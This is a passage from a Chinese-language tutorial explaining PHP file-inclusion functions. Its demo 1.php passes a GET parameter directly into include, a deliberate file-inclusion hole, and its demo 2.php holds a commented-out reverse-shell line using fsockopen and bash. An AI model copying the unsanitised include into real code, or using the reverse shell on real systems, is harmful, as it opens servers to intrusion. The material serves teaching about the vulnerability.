 示例代码(1.php)：

```php
<?php
	highlight_file(__FILE__);
	$file = $_GET['file'];
	include $file;
?>
```

示例代码(2.php)：

```php
<?php
	//这里可以使用PHP来反弹shell，我这里只是演示
	//$sock=fsockopen("127.0.0.1",4444);exec("bin/bash -i <&3 >&3 2>&3");
	echo '<br><h1>[*]backdoor is running!</h1>';
?>
```

执行结果：

![](/images/20200830215933.png)

### include_once()

`include_once`与`include`没有太大区别，唯一的其区别已经在名称中体现了，就是相同的文件只包含一次。其他功能和`include_once`一样，只是增加对每个文件包含的次数。

### require()

`require`的实现和`include`功能几乎完全相同，那既然一样为什么还要多一个这样的函数呢？( 我也不知道)

其实两者还是有点区别的，什么区别呢？这么说，如果你包含的文件的代码里面有错误，你觉得会发生什么？是继续执行包含的文件，还是停止执行呢？所以区别就在这里产生了。

`require`在出错时会导致脚本终止，而`include`在出错时只是发生警告，脚本还是继续执行。

